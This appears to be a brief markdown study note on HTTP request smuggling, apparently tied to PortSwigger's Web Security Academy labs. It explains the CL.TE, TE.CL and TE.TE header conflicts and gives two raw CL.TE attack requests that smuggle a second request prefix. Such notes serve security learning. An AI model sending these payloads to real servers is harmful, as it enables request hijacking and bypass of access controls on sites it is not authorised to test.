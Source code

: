 # HTTP Request smuggling Test

### headers

```
Content-Length
Transfer-Encoding
```

* CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
* TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
* TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### HTTP request CL.TE
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

```
POST / HTTP/1.1
Host: xxxx.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0


GET /404 HTTP/1.1
X-Ignore: x
```
